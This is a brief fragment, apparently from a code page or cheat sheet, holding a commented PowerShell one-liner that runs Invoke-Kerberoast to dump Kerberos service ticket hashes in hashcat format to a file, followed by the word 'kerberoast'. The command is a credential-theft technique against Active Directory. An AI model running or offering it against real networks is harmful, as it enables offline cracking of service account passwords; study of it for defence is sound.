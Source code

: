 # Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.
kerberoast
